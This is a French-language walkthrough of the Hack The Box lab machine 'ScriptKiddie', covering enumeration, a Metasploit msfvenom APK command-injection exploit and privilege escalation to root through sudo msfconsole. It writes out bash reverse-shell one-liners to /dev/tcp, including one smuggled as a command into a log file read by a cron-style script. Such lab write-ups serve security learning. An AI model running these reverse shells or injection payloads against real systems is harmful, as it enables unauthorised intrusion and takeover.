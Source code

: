 # ScriptKiddie [Linux] Easy

# — 1.Enumeration —

## Nmap

`nmap -sS -A -sC -sV -p- 10.10.10.226`

```bash
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)

5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
http-title: k1d'5 h4ck3r t00l5
http-server-header: Werkzeug/0.16.1 Python/3.8.5
```

## Le Site

Sur le site internet du port 5000 nous avons 3 outils nous permettant de :

- Faire un scan Top 100 d’une ip donné
- Créé un payload avec msfvenom
- Exécuter la commande searchsploit

J’ai essayé de :

Utiliser le scan pour obtenir un shell

`10.10.14.16 | bash -i >& /dev/tcp/10.0.14.16/4242 0>&1`

Utiliser le payload generator et de mettre un mauvais lhost ou de mettre un mauvais fichier template.

Utiliser le sploits pour créé un shell.

En sommes l’injection de code ne marche pas sur ce site nous devons trouver un autre moyen d’exploiter ce site.

## FFuf

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://10.10.10.226:5000/FUZZ](http://10.10.10.226:5000/FUZZ)`

On obtient aucune autre page ou dossier.

## MetaSploit

En cherchant par rapport au différentes fonctionnalités du site on trouve un exploit de metasploit par rapport à la génération d’APK Android.

[https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection)

On va donc utiliser l’exploit : `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`

On créé un APK avec nos host et notre cible puis nous envoyons l’APK sur le site

![Untitled](ScriptKiddie%20%5BLinux%5D%20Easy%20cb35f138d02a4b64a6b281a28499ae07/Untitled.png)

`nc -lvnp 4242`

## — 2.Shell as Kid —

![Untitled](ScriptKiddie%20%5BLinux%5D%20Easy%20cb35f138d02a4b64a6b281a28499ae07/Untitled%201.png)

Nous sommes maintenant kid mais nous avons un shell limité donc nous allons l’upgrade avec TTY.

```bash
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:47952.
python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ export TERM=xterm
export TERM=xterm
kid@scriptkiddie:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

kid@scriptkiddie:~/html$ stty rows 55 cols 236
kid@scriptkiddie:~/html$
```

On peux recevoir le premier flag dans le dossier de l’user kid.

J’ai lancé un linPeas (script d’énumération) sur la machine et j’ai trouvé un autres user que kid et root, pwn 

```bash
╔══════════╣ Users with console
kid:x:1000:1000:kid:/home/kid:/bin/bash                                                                           
pwn:x:1001:1001::/home/pwn:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

On énumère les fichier de ce user :

`find /home/pwn -type f -readable -ls 2>/dev/null`

```bash
7671      4 -rw-r--r--   1 pwn      pwn           220 Feb 25  2020 /home/pwn/.bash_logout
7677      4 -rw-rw-r--   1 pwn      pwn            74 Jan 28  2021 /home/pwn/.selected_editor
7673      4 -rw-r--r--   1 pwn      pwn          3771 Feb 25  2020 /home/pwn/.bashrc
7675      4 -rw-r--r--   1 pwn      pwn           807 Feb 25  2020 /home/pwn/.profile
7779      4 -rwxrwxr--   1 pwn      pwn           250 Jan 28  2021 /home/pwn/scanlosers.sh
```

On a donc le script [scanlosers.sh](http://scanlosers.sh) qui contient :

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Un seul caractère d'espace est utilisé comme séparateur de champ ( -d' ' ) et tous les champs commençant par le troisième ( -f3- ) sont considérés comme faisant partie de l'adresse IP.
considérés comme faisant partie de l'adresse IP. De plus, aucune validation de l'entrée n'est effectuée, ce qui rend le script
vulnérable à l'injection de commandes OS arbitraires.

Dans le code de l’application web on vois aussi que l’app écrit dans /home/kid/logs/hackers

![Untitled](ScriptKiddie%20%5BLinux%5D%20Easy%20cb35f138d02a4b64a6b281a28499ae07/Untitled%202.png)

Test d’injection :

`f="/home/kid/logs/hackers"; echo test > $f ; cat $f ; sleep 1 ; cat $f`

On reçoit bien test dans le shell

Maintenant nous pouvons faire un payload plus sérieux :

`echo 'a b $(bash -c "bash -i &>/dev/tcp/10.10.14.16/7777 0>&1")' > /home/kid/logs/hackers` et un listener `nc -lvnp 7777`

On obtient un shell en tant que pwn.

# — 3.ShellAsPwn —

Nous voilà maintenant pwn user 

![Untitled](ScriptKiddie%20%5BLinux%5D%20Easy%20cb35f138d02a4b64a6b281a28499ae07/Untitled%203.png)

On peux repartir sur la face d’énumération de l’user (pwn). 

`sudo -l` :

```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Pour exploiter msfconsole :

`sudo msfconsole`

[https://www.darkoperator.com/blog/2017/10/21/basics-of-the-metasploit-framework-irb-setup](https://www.darkoperator.com/blog/2017/10/21/basics-of-the-metasploit-framework-irb-setup)

```bash
msf6 > irb
system("/bin/bash")
id
uid=0(root) gid=0(root) groups=0(root)
```